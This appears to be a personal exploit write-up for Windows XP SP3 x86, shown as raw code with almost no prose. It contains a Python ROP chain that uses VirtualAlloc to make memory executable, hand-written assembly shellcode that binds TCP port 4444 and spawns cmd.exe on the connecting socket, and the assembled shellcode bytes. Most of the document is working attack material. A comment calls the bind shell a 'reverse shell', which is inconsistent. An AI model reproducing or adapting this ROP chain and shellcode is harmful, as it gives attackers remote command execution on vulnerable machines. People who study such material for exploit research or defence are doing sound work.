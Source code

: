 - environ

Windows XP SP3-x86-cd-vl-x14-74070

- rop
```python
rop += pack('<L',0x7c809ae1)	# VirtualAlloc
rop += pack('<L',0x4011fc)	# ADD ESP,0x4;POP EBP;RETN;
rop += pack('<L',0x0)			# WrittenAddr -> 0x0
rop += pack('<L',0x100)		# dwSize -> 0x100
rop += pack('<L',0x1000)		# flAllocationType ->MEM_COMMIT
rop += pack('<L',0x40)		# flProtect -> MEM_EXECUTE_READWRITE
rop += pack('<L',0x01010101)
rop += pack('<L',0x02020202)
rop += pack('<L',0x7c8409d4)	# ..XCHG EAX,EDX;RETN;				#arg0
rop += pack('<L',0x7c921726)	# MOV EAX,EDX;
rop += pack('<L',0x7c9259c8)	# XCHG EAX,EBX;RETN;
rop += pack('<L',0x7c96ef6b)	# POP EBP;RETN;
rop += pack('<L',0x0)
rop += pack('<L',0x7c87f229)	# POP EAX;RETN;
rop += pack('<L',0x401020)		# ..readbuf
rop += pack('<L',0x7c99123c)	# ..POP ECX;RETN;					#arg1
rop += pack('<L',0x400)
rop += pack('<L',0x7c922486)	# POP EDI;RETN;
rop += pack('<L',0x7c96fe65)	# RETN 0x8;
rop += pack('<L',0x7c94261e)	# POP ESI;RETN;
rop += pack('<L',0x7c974f40)	# JMP EAX;
rop += pack('<L',0x7c96d22b)	# PUSHAD;RETN;
rop += pack('<L',0x7c96fe65)	# RETN 0x8;
```

- shellcode
```asm
;my first shellcode of which function is to BIND 4444 and reverse shell
push 0x6c6c
push 0x642e3233
push 0x5f327377
mov eax,esp
push eax
mov eax,0x7c801d7b
call eax						;Load ws_32.dll
sub esp,400
push esp
push 0x101
mov eax,0x71a26a55
call eax						;WSAStartup(0x101,&data)
push 0
push 0
push 0
push 6
push 1
push 2
mov eax,0x71a28b6a
call eax						;WSASocketA(2,1,0,0,0,0)
mov ebx,eax;save socket fd
mov edx,2
push edx
dec edx
push edx
lea ecx,[esp]
mov edx,4
push ecx
push edx
mov edx,0xffff
push edx
push ebx
mov eax,0x71a24521
call eax						;setsockopt(fd,0xffff,4,&1,2)
push 0
push 0
push 0
push 0
mov [esp],BYTE 2
mov [esp+2],WORD 5c11
lea ecx,[esp]
push 0x10
push ecx
push ebx
mov eax,0x71a24480
call eax						;bind(fd,"4444",0x10)
push 1
push ebx
mov eax,0x71a28cd3
call eax						;listen(fd,1)
mov edx,0x10
push edx
lea edi,[esp]
push edi
push ecx
push ebx
mov eax,0x71a31040
call eax						;accept(fd,"4444",&0x10)
;Then CreateProcess!
cdq
mov edi,eax
sub esp,0x10
lea ebx,[esp]
push edi
push edi
push edi
push 0x10
push 0x10
mov edx,0xff
inc edx
push edx
cdq
push edx
push edx
push edx
push edx
push edx
push edx
push edx
push edx
push edx
push edx
mov edx,0x44
push edx
lea ecx,[esp]
cdq
push 0x657865
push 0x2e646d63
lea eax,[esp]
push ebx
push ecx
push edx
push edx
push edx
inc edx
push edx
cdq
push edx
push edx
push eax
push edx
mov eax,0x7c80236b
call eax						;CreateProcess cmd.exe
```

- machine code -> 
`hll\x00\x00h32.dhws2_\x8b\xc4P\xc7\xc0{\x1d\x80|\xff\xd0\x81\xec\x00\x04\x00\x00Th\x01\x01\x00\x00\xc7\xc0Uj\xa2q\xff\xd0j\x00j\x00j\x00j\x06j\x01j\x02\xc7\xc0j\x8b\xa2q\xff\xd0\x8b\xd8\xc7\xc2\x02\x00\x00\x00RJR\x8d\x0c$\xc7\xc2\x04\x00\x00\x00QR\xc7\xc2\xff\xff\x00\x00RS\xc7\xc0!E\xa2q\xff\xd0j\x00j\x00j\x00j\x00\xc6\x04$\x02f\xc7D$\x02\x11\\\x8d\x0c$j\x10QS\xc7\xc0\x80D\xa2q\xff\xd0j\x01S\xc7\xc0\xd3\x8c\xa2q\xff\xd0\xc7\xc2\x10\x00\x00\x00R\x8d<$WQS\xc7\xc0@\x10\xa3q\xff\xd0`
+
`\x99\x8b\xf8\x83\xec\x10\x8d\x1c$WWWj\x10j\x10\xc7\xc2\xff\x00\x00\x00BR\x99RRRRRRRRRR\xc7\xc2D\x00\x00\x00R\x8d\x0c$\x99hexe\x00hcmd.\x8d\x04$SQRRRBR\x99RRPR\xc7\xc0k#\x80|\xff\xd0`

